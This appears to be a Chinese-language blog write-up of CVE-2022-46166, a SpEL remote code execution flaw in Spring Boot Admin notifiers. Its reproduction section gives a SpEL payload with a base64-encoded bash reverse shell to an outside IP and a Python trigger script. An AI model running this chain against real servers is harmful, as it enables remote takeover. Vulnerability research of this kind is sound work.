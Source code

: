 ```
title: Spring_Boot_Admins_integrated_notifier_support_SpEL远程代码执行(CVE-2022-46166)
date: 2023-07-23 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]

```

# Spring_Boot_Admins_integrated_notifier_support_SpEL远程代码执行(CVE-2022-46166)

## 1 漏洞简介

`Spring Boot Admin`是一个用于管理`Spring Boot`应用程序的开源管理用户界面，用于监控`Spring Boot`单机或集群项目，它提供详细的健康信息、内存信息、JVM系统和环境属性、垃圾回收信息、日志设置和查看、定时任务查看、Spring Boot缓存查看和管理等功能。

当`Spring Boot Admin`管理的`application`中启用了`notifier` ，并且存在弱口令或者未授权时，攻击者可利用相关接口设置相关配置，触发`SpEL`表达式，执行任意命令。

所有运行 `Spring Boot Admin Server`、启用通知程序（例如 `Teams-Notifier`）并通过 UI 写入环境变量的用户都会受到影响。 建议用户升级到最新版本的 Spring Boot Admin 2.6.10 和 2.7.8 以解决此问题。 无法升级的用户可以禁用任何通知程序或禁用 `/env` 执行器端点上的写访问（POST 请求）。

## 2 影响范围

2.6.0 ≤ Spring Boot Admin < 2.6.10

2.7.0 ≤ Spring Boot Admin < 2.7.8

3.0.0 ≤ Spring Boot Admin < 3.0.0-M6

## 3 环境搭建



## 4 漏洞分析

`server`端的详细信息页面

[![image-20230211162223391](assets/202302111622455.png)](https://cdn.jsdelivr.net/gh/DickDock/pic/blog/202302111622455.png)

可以看到这里是可以修改相应客户端的环境变量信息的，当然这里我是把`server`端自己注册为自己的`client`端，实现自己监控自己，同时也可以修改`server`端自己的环境变量。

然后跟进`getValue`方法，这里是`CompositeStringExpression`类下的`getValue`方法，调用栈如下

![image-20230211162812448](assets/202302111628479.png)

然后注意到这里的默认评估表达式其实就是一个`SpEl`表达式

![image-20230211162931741](assets/202302111629783.png)

继续跟进`DingTalkNotifier`

![image-20230211163148139](assets/202302111631191.png)



可以看到这里的`content`已经调用刚才的`SpEL`表达式进行了解析，那我们有没有办法控制刚才的`SpEL`表达式呢？

答案是有的

没错，就是刚才我们看到的`server`端的环境变量页面。我们可以修改server端的环境变量，把钉钉消息通知的模板改为我们指定的内容，这里自然是要改成我们特定的`SpEL`表达式。

接下来我们实践一下

修改`server`端的环境变量

![image-20230211163635126](assets/202302111636177.png)

这里我们把`spring.boot.admin.notify.dingtalk.message`的属性值改为了`\#{2*2}`

接下来再次使用`Python`模拟注册客户端并触发通知，然后跟进我们的断点

![image-20230211164036448](assets/202302111640519.png)



![image-20230211164110378](https://cdn.jsdelivr.net/gh/DickDock/pic/blog/202302111641449.png)

可以看到这里我们在环境变量中配置的`SpEL`表达式已经被解析为了`4`，也就是`2*2`的计算结果。

所以这里其实就是一种触发的方式

## 5 漏洞复现

这里我们把`spring.boot.admin.notify.dingtalk.message`的属性值改为了

`#{T(java.lang.Runtime).getRuntime().exec("calc")}`

``` sh
#{T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zOS4xMDcuMTEzLjI1MC85MDAyIDA+JjE=}|{base64,-d}|{bash,-i}")}

```



![image-20230516202245605](assets/image-20230516202245605.png)

触发脚本：

``` py3
import requests

url = "http://127.0.0.1:8080/instances"

data = {
    "name": "client",
    "managementUrl": "http://127.0.0.1:8444/actuator", "healthUrl": "http://127.0.0.1:8444/actuator/health",
    "serviceUrl": "http://127.0.0.1:8444", "metadata": {"startup": "2023-05-16T19:47:50.9381867+08:00"}
}

response = requests.post(url, json=data)

print(response.text)

```

![image-20230516202428303](assets/image-20230516202428303.png)